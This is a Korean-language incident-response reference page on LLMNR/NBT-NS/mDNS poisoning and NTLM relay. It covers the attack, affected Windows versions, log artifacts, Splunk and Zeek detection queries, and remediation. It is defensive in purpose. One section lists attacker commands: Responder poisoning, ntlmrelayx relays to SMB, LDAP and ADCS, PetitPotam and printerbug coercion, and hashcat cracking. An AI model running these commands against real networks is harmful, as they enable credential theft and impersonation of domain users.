

# LLMNR/NBT-NS 포이즈닝과 NTLM 릴레이 { #llmnrnbt-ns-poisoning-ntlm-relay }

<div class="dfir-meta" markdown>
**MITRE ATT&CK:** T1557.001 (중간자 공격: LLMNR/NBT-NS 포이즈닝과 SMB 릴레이) · T1187 (강제 인증) · **전술:** 자격 증명 접근 / 횡적 이동 · **최종 수정:** 2026-10-07
</div>

!!! abstract "요약"
    DNS가 이름을 찾지 못하면 Windows는 **멀티캐스트/브로드캐스트** 이름 해석으로 넘어갑니다 — **LLMNR** (UDP 5355), **NBT-NS** (UDP 137), **mDNS** (UDP 5353). 같은 서브넷의 누구든 "그거 나야"라고 대답할 수 있습니다. 그러면 피해자는 공격자에게 **NTLM**으로 인증하고, 공격자는 그것을 **가로채거나**(NetNTLMv2 해시 → 오프라인 크래킹) 실시간으로 다른 서버(SMB, LDAP, HTTP/ADCS)에 **릴레이**해서 피해자 행세를 합니다. **강제 인증(coercion)** 버그(PetitPotam, PrinterBug/SpoolSample, DFSCoerce)를 쓰면 공격자가 서버 — DC까지도 — 를 원할 때 *강제로* 인증하게 만들 수 있습니다. 내부망 테스트에서 가장 흔한 첫 단계 중 하나이며, 자격 증명이 전혀 필요 없습니다.

## 공격 원리 { #how-the-attack-works }



릴레이는 **대상이 그 프로토콜에서 서명 / 채널 바인딩을 요구하지 않을 때만** 통합니다. 그래서 SMB 서명, LDAP 서명 + 채널 바인딩, HTTP의 EPA가 핵심 방어입니다.

## 공격 도구 / 명령 { #attacker-tooling-commands }

```text
# Poison + capture
Responder -I eth0 -wd                         # LLMNR / NBT-NS / mDNS / WPAD

# Relay instead of capture (Responder SMB/HTTP servers off)
ntlmrelayx.py -tf targets.txt -smb2support    # relay to SMB hosts without signing
ntlmrelayx.py -t ldaps://dc01 --delegate-access   # RBCD via LDAP
ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp --adcs   # ESC8

# Coerce a server to authenticate to us
PetitPotam.py  attacker_ip  dc01             # MS-EFSRPC
printerbug.py  CORP/user@dc01 attacker_ip    # MS-RPRN (Print Spooler)

# Find relay targets
nxc smb 10.0.0.0/24 --gen-relay-list targets.txt   # hosts with signing not required

# Crack captured hash
hashcat -m 5600 netntlmv2.txt wordlist.txt
```

## 영향받는 Windows 버전 { #affected-windows-versions }

| 버전 | LLMNR | NBT-NS | 기본으로 SMB 서명 필수 | NTLMv1 |
|---|---|---|---|---|
| **XP / 2003** | 없음 | **켜짐** | DC만 | 허용 (XP는 기본으로 LM/NTLMv1 사용) |
| **Vista / 2008 → 10 / 2022** | **켜짐** | **켜짐** | DC만 | `LmCompatibilityLevel=5`가 아니면 허용 |
| **11 24H2 / Server 2025** | 켜짐 (끌 수 있음) | 켜짐 | 기본으로 **모든 송신·수신 SMB에 필수** | **제거됨** |

강제 인증: **PetitPotam** (CVE-2021-36942)은 Server 2008 → 2022에 영향을 줬고 일부만 고쳐졌습니다 — 인증 없는 경로는 패치됐지만, 인증된 강제 인증은 여전히 동작합니다. **PrinterBug**는 서비스가 도는 모든 버전에서 Print Spooler의 *설계상* 기능입니다.

## 남는 흔적 { #artifacts-left-behind }

| 위치 | 아티팩트 | 찾을 것 |
|---|---|---|
| 네트워크 | [Zeek `dns.log`](../network/zeek/dns-log.md) — DNS 서버가 아닌 호스트가 응답한 **포트 5355 / 137 / 5353** 쿼리 | 포이즈닝 응답자. 같은 IP가 여러 다른 이름에 응답 = Responder |
| 네트워크 | Zeek `ntlm.log` — `server_nb_computer_name` / `hostname` 불일치, 또는 워크스테이션이 여러 클라이언트의 NTLM *서버* 역할을 함 | 가로채기 / 릴레이 호스트 |
| 네트워크 | Zeek `smb_mapping.log` / `conn.log` — 워크스테이션 → 워크스테이션 SMB 445 | SMB로 릴레이 |
| 릴레이 대상 Security 로그 | **4624 Type 3, NTLM**인데 `Workstation_Name`이 `Source_Network_Address`의 호스트 이름과 **맞지 않음** | 전형적인 릴레이 징후: 이름은 피해자, IP는 공격자 |
| 릴레이 대상 | `Authentication_Package=NTLM`, `Package_Name=NTLM V1`인 **4624** | NTLMv1 사용 중 — 다운그레이드 / 크랙 가능 |
| DC Security 로그 | 특이한 출발지에서 `RelativeTargetName`이 `efsrpc`, `lsarpc`, `spoolss`, `netdfs`인 `\\DC\IPC$` 접근 **5145** | 강제 인증 시도 |
| 피해자 호스트 | 예상 밖 서버를 가리키는 Microsoft-Windows-SMBClient/Security **31001** (공유 로그온 실패) | 사용자가 오타 난 공유에 접속하려 했고 공격자가 대답함 |

## 탐지 { #detection }

=== "Splunk — 릴레이 (이름/IP 불일치)"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4624 Logon_Type=3 Authentication_Package=NTLM
    | where Account_Name!="ANONYMOUS LOGON" AND NOT match(Account_Name,"\$$")
    | lookup dnslookup clientip AS Source_Network_Address OUTPUT clienthost AS resolved
    | eval resolved_short=upper(mvindex(split(resolved,"."),0))
    | where isnotnull(resolved_short) AND resolved_short!=upper(Workstation_Name)
    | table _time, host, Account_Name, Workstation_Name, Source_Network_Address, resolved_short
    ```

    `4624 Type 3` = 네트워크 로그온. 릴레이에서는 `Workstation_Name`이 **피해자** 컴퓨터 이름(피해자의 NTLM 메시지에서 옴)이지만, `Source_Network_Address`는 **공격자** IP입니다. `lookup dnslookup`은 Splunk 기본 역방향 DNS 조회이고, `split(...,".")` + `mvindex(...,0)`는 짧은 호스트 이름을 뽑습니다. 불일치하면 릴레이 후보입니다. (DHCP 변동 때문에 노이즈가 좀 있습니다 — 자산 목록이 있다면 DNS 대신 그걸로 조정하세요.)

=== "Splunk — 아직 쓰이는 NTLMv1"

    ```spl
    index=botsv3 sourcetype=WinEventLog EventCode=4624 Package_Name="NTLM V1"
    | stats count by host, Account_Name, Workstation_Name
    ```

    `Package_Name` (Security 로그 필드 "Package Name (NTLM only)")은 `NTLM V1` 또는 `NTLM V2`를 보여 줍니다. v1 트래픽은 비밀번호 강도와 상관없이 크랙 가능하므로, `LmCompatibilityLevel=5`를 설정하기 전에 없애야 합니다.

=== "Zeek — 포이즈닝 응답자"

    ```bash
    zeek-cut ts id.orig_h id.resp_h id.resp_p query answers < dns.log \
      | awk '$4==5355 || $4==137 || $4==5353' \
      | awk '{print $3}' | sort | uniq -c | sort -rn | head
    ```

    멀티캐스트/브로드캐스트 이름 해석 트래픽만 남긴 뒤, 어떤 응답자 IP가 대답하는지 셉니다. 한 호스트가 여러 다른 이름에 대답하면 Responder입니다.

## 대응 { #response }

포이즈닝 호스트(응답자 IP)를 찾아 격리한 다음, NetNTLMv2가 가로채진 모든 계정을 위험한 것으로 봅니다 — 약한 비밀번호 계정부터 재설정하세요. 릴레이의 경우, 공격자가 피해자 *행세로* 대상에서 무엇을 했는지 확인합니다(새 서비스, 컴퓨터 객체의 RBCD 변경, 발급된 인증서).

### Windows 버전별 대응책 { #remediation-by-windows-version }

| 대응책 | 막는 것 | 적용 가능 버전 |
|---|---|---|
| **LLMNR** 끄기 — GPO *Computer › Admin Templates › Network › DNS Client › Turn off multicast name resolution* | LLMNR 포이즈닝 | **Vista / 2008+** (XP에는 LLMNR 없음) |
| **NetBIOS over TCP/IP** 끄기 — 어댑터 설정, DHCP 옵션 001, 또는 스크립트로 `NetbiosOptions=2` | NBT-NS 포이즈닝 | 모든 버전 (기본 GPO 없음; DHCP나 스크립트 사용) |
| **mDNS** 끄기 (`Dnscache\Parameters` 아래 `EnableMDNS=0`) | mDNS 포이즈닝 | Windows 10 1703+ / 11 |
| **SMB 서명 필수** (클라이언트 + 서버) | SMB 릴레이 | **모든 버전**에서 설정 가능; **11 24H2 / Server 2025는 기본값** |
| DC에 **LDAP 서명** + **LDAP 채널 바인딩** | LDAP/LDAPS 릴레이 (RBCD, shadow credentials) | 2008+ (채널 바인딩은 2020년 3월 업데이트부터); Server 2025는 더 엄격한 기본값 |
| IIS / ADCS 웹 등록에 **EPA** (Extended Protection for Authentication) + HTTPS만 사용 | ESC8 포함 HTTP 릴레이 | 업데이트된 7 / 2008 R2+ |
| `LmCompatibilityLevel=5` (NTLMv2만, LM & NTLMv1 거부) | NTLMv1 다운그레이드 / 크래킹 | 모든 버전; 11 24H2 / Server 2025에서 NTLMv1 **제거됨** |
| 인쇄하지 않는 DC와 서버에서 **Print Spooler** 끄기; PetitPotam 패치; RPC 필터로 EFSRPC 차단 | 강제 인증 | Spooler가 있는 모든 버전; EFSRPC 필터링은 2012 R2+ |
| NTLM 제한 (*Network security: Restrict NTLM* 정책), 관리자를 **Protected Users**에 추가 | 전체 NTLM 공격 면적 축소 | 7 / 2008 R2+; Protected Users는 DFL 2012 R2+ |

## 참고 자료 { #references }

- [MITRE ATT&CK — T1557.001](https://attack.mitre.org/techniques/T1557/001/) · [T1187](https://attack.mitre.org/techniques/T1187/)
- [Microsoft — SMB signing required by default in Windows 11 24H2](https://techcommunity.microsoft.com/blog/filecab/smb-signing-required-by-default-in-windows-insider/3831704)
- 관련 페이지: [ADCS 악용](adcs-abuse.md) · [PrintNightmare와 Spooler](printnightmare.md) · [Zeek dns.log](../network/zeek/dns-log.md) · [Pass-the-Hash](pass-the-hash.md)
